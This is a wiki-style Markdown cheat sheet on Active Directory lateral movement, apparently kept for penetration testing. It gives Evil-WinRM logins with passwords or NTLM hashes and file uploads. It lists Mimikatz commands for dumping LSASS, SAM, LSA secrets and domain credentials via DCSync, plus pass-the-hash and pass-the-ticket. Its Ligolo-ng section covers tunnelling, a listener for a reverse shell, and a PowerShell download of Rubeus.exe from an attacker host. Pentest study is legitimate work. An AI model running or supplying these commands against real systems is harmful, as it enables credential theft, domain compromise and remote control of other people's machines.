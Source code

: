 ```yaml
---
layout: wiki
title: Lateral Movement
cate1: Internals
cate2: Active Directory
description: Lateral Movement
keywords: Internals
---
```


# Lateral Movement

## Smbexec
**[Smbexec](https://book.hacktricks.xyz/windows-hardening/lateral-movement/smbexec)**

## WinRM 
**[Evil-WinRM - ultimate WinRM shell for hacking/pentesting](https://github.com/Hackplayers/evil-winrm)**

```
gem install evil-winrm
evil-winrm -i <IP> -u <username> -p <password>
evil-winrm -i <IP> -u <username> -H <ntlm hash>
evil-winrm -i <IP> -u <username> -k

## Run Powershell Commands
whoami
ipconfig
Get-Process

## Upload and Download Files
upload /local/path/to/file /remote/path
download /remote/path/to/file /local/path

## Run Powershell Scripts
upload /local/path/to/script.ps1 /remote/path/script.ps1
powershell -File /remote/path/script.ps1
```

## Mimikatz
**[Mimikatz](https://github.com/gentilkiwi/mimikatz/releases)**

```
#Dump LSASS:
mimikatz privilege::debug
mimikatz token::elevate
mimikatz sekurlsa::logonpasswords

#(Over) Pass The Hash
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>

#List all available kerberos tickets in memory
mimikatz sekurlsa::tickets

#Dump local Terminal Services credentials
mimikatz sekurlsa::tspkg

#Dump and save LSASS in a file
mimikatz sekurlsa::minidump c:\temp\lsass.dmp

#List cached MasterKeys
mimikatz sekurlsa::dpapi

#List local Kerberos AES Keys
mimikatz sekurlsa::ekeys

#Dump SAM Database
mimikatz lsadump::sam

#Dump SECRETS Database
mimikatz lsadump::secrets

#Inject and dump the Domain Controler's Credentials
mimikatz privilege::debug
mimikatz token::elevate
mimikatz lsadump::lsa /inject

#Dump the Domain's Credentials without touching DC's LSASS and also remotely
mimikatz lsadump::dcsync /domain:<DomainFQDN> /all

#Dump old passwords and NTLM hashes of a user
mimikatz lsadump::dcsync /user:<DomainFQDN>\<user> /history

#List and Dump local kerberos credentials
mimikatz kerberos::list /dump

#Pass The Ticket
mimikatz kerberos::ptt <PathToKirbiFile>

#List TS/RDP sessions
mimikatz ts::sessions

#List Vault credentials
mimikatz vault::list
```

**Additional Resources**
  - [Mimikatz Post Exploitation Basics](https://infosecwriteups.com/post-exploitation-basics-in-active-directory-enviorment-by-hashar-mujahid-d46880974f87)
  - [Mimikatz Guide Reference](https://adsecurity.org/?page_id=1821)

## Network Pivoting via Ligolo-ng
**[Network Pivoting - Ligolo-ng](https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740)**

```
./agent -connect 10.10.14.5:443 -ignore-cert
sudo ./proxy -selfcert -laddr 0.0.0.0:443 -v
session
start
sudo ip route add 192.168.110.0/24 dev ligolo

listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4444 (open port on DMZ machine for reverse shell)

powershell -Command "Invoke-WebRequest -Uri 'http://192.168.110.51:1235/Rubeus.exe' -OutFile 'Rubeus.exe'"
```

**Additional Resources**
  - [Ligolo Guide for pivoting](https://systemweakness.com/pivoting-for-newbies-with-ligolo-ng-82f13040aa39)
  - [Advanced pivoting guide](https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5)
